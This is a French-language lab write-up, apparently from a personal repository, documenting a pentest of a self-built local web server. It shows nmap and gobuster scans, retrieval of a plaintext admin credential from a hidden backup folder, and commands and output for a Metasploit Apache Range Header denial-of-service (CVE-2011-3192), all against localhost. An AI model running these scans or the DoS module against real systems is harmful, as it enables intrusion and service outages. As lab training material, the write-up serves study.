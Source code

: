 
![Maintenant que l'infrastructure est montée](Build_infra.md), on va mettre en place des scripts de pentest.


# Premiers scripts avec bash


Ayant plus de facilité et de rapidité avec un script *bash*, je vais essayer de les faire sur bash **vulnerability.sh** :

```bash
#!/bin/bash

sudo apt install nmap gobuster hping3

echo "[*] Scan de vulnérabilités sur http://localhost:8080"

echo "[+] Nmap vuln scan"
nmap -p 8080 --script vuln localhost

echo "[+] Gobuster - test de répertoires"
gobuster dir -u http://localhost -w /usr/share/wordlists/dirb/common.txt

echo "[✓] Terminé"
```

Résultat en omettant la partie installation : 

![[Screen/resultat_script.png]]

* Ce qu'il faut retenir :
	* vulnérabilité CVE 2011 3192
	* Dossier index.html (rien d'interessant) 
	* Dossier robots.txt


##  Partie offensive (intéressante)

Mettant nous à la place d'un hackeur, le plus simple et de regarder le partie robots.txt

```bash
└─$ curl localhost/robots.txt
User-agent: *
Disallow: /admin-backup/
```

Si on essaye de regarder la page web :

![[Screen/admin-back.png]]

* On va donc essayer d'énumérer les dossiers : 

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://localhost/admin-backup -w /usr/share/wordlists/dirb/common.txt -x .txt,.php 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost/admin-backup
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/secret.txt           (Status: 200) [Size: 56]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

On trouve secret.txt, on va donc le lire :

```bash
curl http://localhost/admin-backup/secret.txt
Admin access :
login : user14526
mdp : fae984ùvê5:;a;
```

Attaque réussie, on a obtenu le login et le mot de passe caché dans un dossier

## CVE 2011 3192 

Il a plusieurs moyens d'exploiter une CVE :
- Regarder ces infos sur CVE et faire un script
- Regarder s'il existe un exploit sur un outil  comme nmap / metasploit...

Tant qu'on est sur nmap, on va regarder s'il existe un script pour du DOS (Denial of Service) sur le load balancing d'un nginx (c'est la vulnérabilité de la CVE.)


```bash
nmap --script http-vuln-cve2011-3192.nse [--script-args http-vuln-cve2011-3192.hostname=nmap.scanme.org] -pT:8080 localhost
```

Pas convaincu...

Essayant avec metasploit

```bash
sudo apt install metasploit-framework
msfconsole
msf6 > search cve:CVE-2011-3192  

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/dos/http/apache_range_dos  2011-08-19       normal  No     Apache Range Header DoS (Apache Killer)
   1    \_ action: CHECK                   .                .       .      Check if target is vulnerable
   2    \_ action: DOS                     .                .       .      Trigger Denial of Service against target
```

Petit rappel : Un DOS (qui est l'attaque qu'on recherche) fait partie du module auxiliaire de msfconsole

Pour voir les options :

```bash
msf6 auxiliary(dos/http/apache_range_dos) > show options

Module options (auxiliary/dos/http/apache_range_dos):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   localhost        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RLIMIT   50               yes       Number of requests to send
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads (max one per host)
   URI      /                yes       The request URI
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   DOS   Trigger Denial of Service against target



View the full module info with the info, or info -d command.
```

Avec la commannde **`info`** on peut voir une option

```bash
Available actions:
    Name   Description
    ----   -----------
    CHECK  Check if target is vulnerable
=>  DOS    Trigger Denial of Service against target
```

Pour mettre les options et lancer l'attaque DOS classique (la flèche au dessus indique que c'est DOS qui est utilisée lorsqu'on fait run) :

```bash
use auxiliary/dos/http/apache_range_dos
set RHOSTS localhost
set RPORT 80
run
```

Résultat de l'attaque : 

![[wireshark_resultat_msf.png]]

Ce qu'il y a d'intéressant :
* Tout est en local, sur wireshark le raccourci ::1
* ça envoie en boucle des trames
* En noir la trame qui n'a pas été envoyée

```bash
msf6 auxiliary(dos/http/apache_range_dos) > check
[-] This module does not support check.
[*] Checked 1 of 2 hosts (050% complete)
[-] This module does not support check.
[*] Checked 2 of 2 hosts (100% complete)
```

En testant de refresh la page de localhost, on a quand même accès aux deux sites web, avec cependant avec beaucoup de latence...

On va essayer une injection SQL